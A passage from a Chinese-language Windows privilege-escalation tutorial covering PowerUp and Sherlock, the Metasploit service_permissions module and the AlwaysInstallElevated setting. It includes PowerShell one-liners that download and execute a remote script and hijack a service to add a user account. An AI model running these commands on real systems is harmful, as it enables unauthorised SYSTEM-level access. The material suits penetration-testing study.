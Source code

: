 ```
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP');Invoke-AllChecks"
```

添加用户：

```
powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('xxx./PowerUp.ps1');Install-ServiceBinary -ServiceName 'Apache_pn' -Username lll -Password 123456
```

重启该服务后，将会添加用户。

**提权实例：**

ps: 这里我用的还是 Sherlock 脚本查找漏洞。(上方的调用出了点问题)

[![2Ah66e.png](https://z3.ax1x.com/2021/05/29/2Ah66e.png)](https://imgtu.com/i/2Ah66e)

试用 ``MS16-135``：

[![2A5CPP.png](https://z3.ax1x.com/2021/05/29/2A5CPP.png)](https://imgtu.com/i/2A5CPP)

总之上方找到可利用的都可以试试。

##### 2.Metasploit 下的实战利用

在 Metasploit 中，对应的利用模块是 service_permissions。选择 "AGGRESSIVE" 选项，可以利用目标机器上每一个有缺陷的服务。该选项被禁用时，该模块在第一次提权成功后就会停止工作。

```
use service_permissions
show options 	#查看选项，若有空缺补上
run
```

service_permissions 模块使用两种方法来获得 System 权限：如果 meterpreter 以管理员权限运行，该模块会尝试创建并运行一个新的服务；如果当前权限不允许创建服务，该模块会判断哪些服务的文件或者文件夹的权限有问题，并允许对其进行劫持。在创建服务或劫持已经存在的服务时，该模块会创建一个可执行程序，其文件名和安装路径都是随机的。

#### 注册表键 AlwayslnstallElevated

注册表键 AlwayslnstallElevated 是一个策略设置项。Windows 允许低权限用户以 System 权限运行安装软件。如果启用此策略设置项，那么任何权限的用户都能以 NT AUTHORITY\SYSTEM 权限来安装恶意的 MSI (Microsoft Windows Installer) 文件。

##### 1.PathsAlwaysInstallElevated 漏洞产生的原因

该漏洞产生的原因是用户开启了 Windows Installer 特权安装功能：

[![2AzKvd.png](https://z3.ax1x.com/2021/05/29/2AzKvd.png)](https://imgtu.com/i/2AzKvd)

在 "运行" 设置框中输入 "gpedit.msc"，打开组策略编辑器。

+ 组策略——计算机配置——管理模板——Windows 组件——Windows Installer——永远以高特权进行安装：选择启用。
+ 组策略——用户配置——管理模板——Windows 组件——Windows Installer——永远以高特权进行安装：选择启用。

设置完毕，会在注册表的以下两个位置自动创建键值 "1"。

+ HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
+ HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

##### 2.Windows Installer 的相关知识点
